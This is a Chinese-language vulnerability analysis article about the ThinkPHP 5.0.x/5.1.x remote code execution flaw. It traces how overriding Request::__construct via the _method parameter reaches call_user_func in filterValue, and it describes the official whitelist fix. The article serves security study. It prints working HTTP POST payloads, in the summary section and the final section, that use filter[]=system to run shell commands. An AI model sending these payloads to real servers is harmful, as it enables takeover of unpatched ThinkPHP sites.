本系列文章将针对 **ThinkPHP** 的历史漏洞进行分析，今后爆出的所有 **ThinkPHP** 漏洞分析，也将更新于 [ThinkPHP-Vuln](https://github.com/Mochazz/ThinkPHP-Vuln) 项目上。本篇文章，将分析 **ThinkPHP** 中存在的 **远程代码执行** 漏洞。

## 漏洞概要

本次漏洞存在于 **ThinkPHP** 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致 **远程代码执行漏洞** 的产生。漏洞影响版本： **5.0.0<=ThinkPHP5<=5.0.23** 、**5.1.0<=ThinkPHP<=5.1.30**。不同版本 **payload** 需稍作调整（以下payload未全测试，部分来自网络）：

```
# ThinkPHP <= 5.0.13
POST /?s=index/index
s=whoami&_method=__construct&method=&filter[]=system

# ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al

# ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=xxx HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```

## 漏洞环境

通过官网下载 **ThinkPHP 5.0.23** 完整版代码，搭建好后，发送如下数据包，即可触发 **远程代码执行漏洞** 。



## 漏洞分析

首先在官方发布的 **5.0.24** 版本更新说明中，发现其中提到该版本包含了一个安全更新。



我们可以查阅其 **commit** 记录，发现其改进了。接下来，我们直接跟进代码一探究竟。



这次我们不再直接跟着 **payload** 进行漏洞分析，而是通过官方的些许描述和 **github commit** 记录，来还原漏洞。从官方的修复代码中，我们可以很明显的看出 **$method** 来自可控的 **$_POST** 数组，而且在获取之后没有进行任何检查，直接把它作为 **Request** 类的方法进行调用，同时，该方法传入的参数是可控数据 **$_POST** 。也就相当于可以随意调用 **Request** 类的部分方法。



同时，我们观察到 **Request** 类的 **__construct** 方法中存在类属性覆盖的功能，这对我们之后的利用非常有利， **Request** 类的所有属性如下：

```php
protected $get                  protected static $instance;
protected $post                 protected $method;
protected $request              protected $domain;
protected $route                protected $url;
protected $put;                 protected $baseUrl;
protected $session              protected $baseFile;
protected $file                 protected $root;
protected $cookie               protected $pathinfo;
protected $server               protected $path;
protected $header               protected $routeInfo 
protected $mimeType             protected $env;
protected $content;             protected $dispatch 
protected $filter;              protected $module;
protected static $hook          protected $controller;
protected $bind                 protected $action;
protected $input;               protected $langset;
protected $cache;               protected $param   
protected $isCheckCache;    
```

我们继续跟进程序，会发现如果框架在配置文件中开启了 **debug** 模式（ `'app_debug'=> true` ），程序会调用 **Request** 类的 **param** 方法。这个方法我们需要特别关注了，因为 **Request** 类中的 `param、route、get、post、put、delete、patch、request、session、server、env、cookie、input` 方法均调用了 **filterValue** 方法，而该方法中就存在可利用的 **call_user_func** 函数。



我们跟进 **param** 方法。发现其调用 **method** 方法（上图 **第16行** ）。其会调用 **server** 方法，而在 **server** 方法中把 **$this->server** 传入了 **input** 方法。这个 **$this->server** 的值，我们可以通过先前 **Request** 类的 **__construct** 方法来覆盖赋值。也就是说，可控数据作为 **$data** 传入 **input** 方法，然后 **$data** 会被 **filterValue** 方法使用 **$filter** 过滤器处理。其中 **$filter** 的值部分来自 **$this->filter** ，又是可以通过先前 **Request** 类的 **__construct** 方法来覆盖赋值。



接下来就是我们很熟悉的 **filterValue** 方法调用 **call_user_func** 处理数据的过程，代码执行也就是发生在这里。



上面我们讲的是开启框架调试模式下，触发 **远程代码执行** 漏洞，接下来我们再来看看如果没有开启框架调试模式，是否可以利用该漏洞。在 **run** 方法中，会执行一个 **exec** 方法，当该方法中的 **$dispatch['type']** 等于 **controller** 或者 **method** 时，又会调用 **Request** 类的 **param** 方法。



跟进 **Request** 类的 **param** 方法，我们发现其后面的调用过程又会和先前的分析一样了，这里不再赘述。



现在我们还要解决一个问题，就是如何让 **$dispatch['type']** 等于 **controller** 或者 **method** 。通过跟踪代码，我们发现 **$dispatch['type']** 来源于 **parseRule** 方法中的 **$result** 变量，而 **$result** 变量又与 **$route** 变量有关系。这个 **$route** 变量取决于程序中定义的路由地址方式。



 **ThinkPHP5** 中支持 **5种** 路由地址方式定义：

| 定义方式                  | 定义格式                                                     |
| ------------------------- | ------------------------------------------------------------ |
| 方式1：路由到模块/控制器  | '[模块/控制器/操作]?额外参数1=值1&额外参数2=值2...'          |
| 方式2：路由到重定向地址   | '外部地址'（默认301重定向） 或者 ['外部地址','重定向代码']   |
| 方式3：路由到控制器的方法 | '@[模块/控制器/]操作'                                        |
| 方式4：路由到类的方法     | '\完整的命名空间类::静态方法' 或者 '\完整的命名空间类@动态方法' |
| 方式5：路由到闭包函数     | 闭包函数定义（支持参数传入）                                 |

而在 **ThinkPHP5** 完整版中，定义了验证码类的路由地址。程序在初始化时，会通过自动类加载机制，将 **vendor** 目录下的文件加载，这样在 **GET** 方式中便多了这一条路由。我们便可以利用这一路由地址，使得 **$dispatch['type']** 等于 **method** ，从而完成 **远程代码执行** 漏洞。



所以最终的 **payload** 类似下面这样：

```http
POST /index.php?s=captcha HTTP/1.1
    ⋮
Content-Length: 59

_method=__construct&filter[]=system&method=get&get[]=ls+-al
# 或者
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```

## 漏洞修复

官方的修复方法是：对请求方法 **$method** 进行白名单校验。


## 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。



## 参考

[ThinkPHP 5.x RCE 漏洞分析与利用总结](https://www.cnblogs.com/iamstudy/articles/thinkphp_5_x_rce_1.html) 